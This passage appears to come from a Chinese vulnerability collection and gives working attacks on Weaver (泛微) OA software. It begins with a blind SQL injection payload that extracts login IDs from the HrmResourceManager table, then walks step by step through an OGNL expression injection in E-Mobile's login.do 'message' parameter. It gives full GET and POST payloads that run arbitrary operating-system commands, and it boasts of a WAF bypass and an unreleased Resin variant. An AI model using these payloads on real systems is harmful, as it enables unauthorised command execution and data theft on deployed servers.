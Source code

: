 ```
c0-param0=string:1 and ascii((select substring(loginid,1,1)from HrmResourceManager))=115
c0-param1=string:1
batchId=0
```  
###  2.1.27泛微e-mobile ognl注入  
  
泛微 E-Mobile 表达式注入?大概?这个洞是一个月以前，老师丢给我玩的，叫我学习一下。  
拿到的时候一脸懵逼，什么是表达式注入?去漏洞库看了一圈。  
(・。・) 噢！原来可以执行算术运算就是表达式注入呀！  
要怎么玩？当计算器用么？～ヾ(*´∇`)ﾉ  
  
一、泛微OA E-Mobile WebServer:**Apache**  
 通用部分:**apache**  
官方有两个OA。一个是**apache**  
的 一个是**Resin**  
的。**Resin**  
的也找到姿势通杀了，但是**Resin**  
涉及的站太大了。。。暂时不放出来，因为好像和S2撞洞了？因为045打了WAF的 ，我这个可以执行命令。23333 我也不知道~  
  
1、登录页面如下  
  
http://6.6.6.6/login.do?  
  
or  
  
http://6.6.6.6/login/login.do?  
  
2、当账号密码报错的时候，出现如下URL  
  
login.do?message=104&verify=  
  
3、直接改写message=的内容，试试算术运算。  
  
http://6.6.6.6/login.do?message=66*66*66-66666  
  
4、表达式注入。  
  
有的表达式注入是${code}。这里隐藏了${}，所以直接调用就行了。  
  
message=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())  
  
5、也可以通过`post`提交数据来进行注入，命令执行  
  
`post`如下数据也可以：  
  
message=(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#w=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter()).(#w.print(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(#parameters.cmd[0]).getInputStream()))).(#w.close())&cmd=whoami  
  
参考：  
  
http://sh0w.top/index.php/archives/14/  
  
http://sh0w.top/index.php/archives/39/  
  
[https://mp.weixin.qq.com/s/EbzjQvHTl7k9flG-7lqAvA](https://mp.weixin.qq.com/s?__biz=MzAwMjgwMTU1Mg==&mid=2247484281&idx=1&sn=5dadecc65ad4c02d47e9e4c1175fab35&scene=21#wechat_redirect)  
  